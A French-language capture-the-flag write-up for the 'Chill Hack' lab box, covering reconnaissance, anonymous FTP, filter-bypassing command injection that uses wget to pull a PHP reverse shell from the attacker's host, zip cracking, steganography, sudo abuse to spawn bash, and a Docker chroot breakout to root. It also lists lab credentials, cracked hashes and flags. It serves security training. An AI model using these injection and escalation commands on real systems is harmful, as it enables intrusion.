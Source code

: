 # **Chill Hack**

---

## **Reconnaissance**

on nmap le server

on voit 3 port ouvert:

- 21: ftp
- 22: ssh
- 80: http

avec gobuster on trouve un  /secret qui nous permet d'entrer une commnande

## **21**

On accede au server ftp avec login:anonymous et pass: (le mot de passe est empty)

on ``get note.txt``:

```txt
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

donc go tester les posts et les champs ou on peut mettre des strings sur le site.

## **80**

on trouve dans /contact un form qui va surement nous permettre d'injecter une string dans une commande

il y a un filtre mais il est facilement bypassable ave ``\``

il faut capturer le post avec birpsuite pour plus de facilité

on ouvre un serveur http local sur lequel on met un reverse en php que l'on fait telecharger avec cette commande:

```bash
cd ../../../tmp %26%26 l\s %26%26 wget <http://10.10.163.21:8000/reverse.php>
```

(le telecharger dans le tmp pour avoir l'acces d'ecrire et de lire)

ensuite avec cette commande pour lancer le script

```bash
cd ../../../tmp %26%26 l\s %26%26 p\hp ./reverse.php
```

(les commande sont ecrit dans burpsuite d'ou les %26 = &)

une fois le reverse shell lancer on peut voir dans /home 3 utilisateurs:

```txt
anurodh
apaar
aurick
```

dans `/home/apaar` on a une note local.txt qui est surement le flag

dans /var/www/files il y a un file hacker.php ou l'on peut voir:

```html
<center>
 <img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
 <h1 style="background-color:red;">You have reached this far. </h2>
 <h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
```

on telecharge l'image `hacker-with-laptop_23-2147985341.jpg`
puis on l'analyse avec steghide

et dans le meme path on voit un index.php ou le mdp a l'air d'etre ecrit en clair avec `steghide extract -sf hacker-with-laptop_23-2147985341.jpg`

on se retrouve avec un backup.zip

si on essaye de unzip on recois ca:

```bash
root@ip-10-10-233-154:~/images# unzip backup.zip
Archive:  backup.zip
[backup.zip] source_code.php password:
```

on crack le mdp avec johntheripper.

```bash
zip2john backup.zip > hash.txt
john hash.txt --wordlist=/root/Tools/wordlists/rockyou.txt
```

(utilisation tres basique de johntheripper)
on trouve le mdp ``pass1word``

on a donc acces a source_code.php qui a un mdp ecris en base64 ce qui nous donne:

```txt
Anurodh:!d0ntKn0wmYp@ssw0rd
```

grace a ces credentials on peut se connecter en ssh a anurodh `ssh anurodh@IP`

on a pu remarquer que dans apaar il y a un fichier ``.helpline.sh``

lorsque l'on tape `sudo -l` on obtient:

```bash
User anurodh may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

ce qui veut dire que l'on peut executer le script en tant que apaar et faire une horizontal privilege escalation

```bash
sudo -u apaar /home/apaar/.helpline.sh
```

ensuite on lui donne la commande ``/bin/bash`` et un bash spawn

on n'a plus qu'a ``cat`` le userflag

```txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

pour escalader ces privileges ensuites on remarque que anurodh a des droits docker lorsquee l'on fait `id` dans la console

```bash
dock image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        3 years ago         5.57MB
hello-world         latest              bf756fb1ae65        3 years ago         13.3kB

```

ensuite avec un Docker Breakout / Privilege Escalation on execute ``docker run -it -v /:/host/ alpine chroot /host/ bash``

ensuite on accede au proof.txt qui nous donne le flag:

```txt
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```

---

## **SQL**

dans /var/www/files on voit account.php les informations suivantes:

```php
...
$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
...
```

aussi dans account.php on trouve:

```php
...
$pw = hash("md5",$pw);
  $query = $this->con->prepare("SELECT * FROM users WHERE username='$un' AND password='$pw'");
...
```

les mot de passe sont hasher avec md5 dans la bdd

avec cette commande:

```bash
$ mysql -u root -p
Enter password: !@m+her00+@db
```

lorsque l'on essaye d'afficher les database avecc:

```sql
SHOW schemas;
```

on a:

```txt
Database
information_schema
mysql
performance_schema
sys
webportal
```

```sql
USE webportal
SELECT * FROM users
```

on obtient:

```txt
id firstname lastname username password
1 Anurodh Acharya Aurick 7e53614ced3640d5de23f111806cc4fd
2 Apaar Dahal cullapaar 686216240e5af30df0501e53c789a649
```

7e53614ced3640d5de23f111806cc4fd : masterpassword
686216240e5af30df0501e53c789a649 : dontaskdonttell

cullapaar:dontaskdonttell
Aurick:masterpassword

ces credentials ne servent pas a se connecter en ssh

---

## **Conclusion**

### **Flag 1**

Box: **4**

Temps passer 2 jour (~10h)

aide des writeups 2 :

1. trouver le fichier source_code.php (steg)
2. utiliser les droits de apaar pour executer .helpline.sh

point de blocage:

- ne pas oublier de faire un dirbuster/gobuster
- je suis partie a coter de la plaque alors que j'avais bien reperer le .helpline.sh j'aurais pu recuperer le flage depuis www-data
- bien analyser les fichier evident
- perdu du temps a rentrer dans la bdd sql
- bien penser a:
  - la steg
  - craquage pour les mdp

### **Flag 2*

aide des writeups 1 :

1. anurodh faisait partit du groupe docker
